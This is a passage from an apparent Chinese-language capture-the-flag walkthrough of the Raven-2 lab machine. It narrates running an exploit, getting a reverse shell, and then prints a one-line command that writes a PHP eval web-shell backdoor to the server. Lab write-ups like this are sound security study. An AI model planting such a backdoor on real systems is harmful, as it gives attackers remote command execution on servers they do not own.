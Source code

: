 运行EXP。

![运行exp](./Raven-2/运行exp.png)

点击`http://192.168.132.146/contact.php`链接以后就会在网站根目录生成一个`shell.php`，访问这个文件。

![访问shell.php文件](./Raven-2/访问shell.php文件.png)

监听到端口，成功反弹shell，并且成功拿到webshell权限。

![反弹shell成功](./Raven-2/反弹shell成功.png)

写入后门利用Webshell工具连接方便操作。

```php
echo '<?php eval($_POST[cmd]);?>' > code.php
```

![写入shell](./Raven-2/写入shell.png)

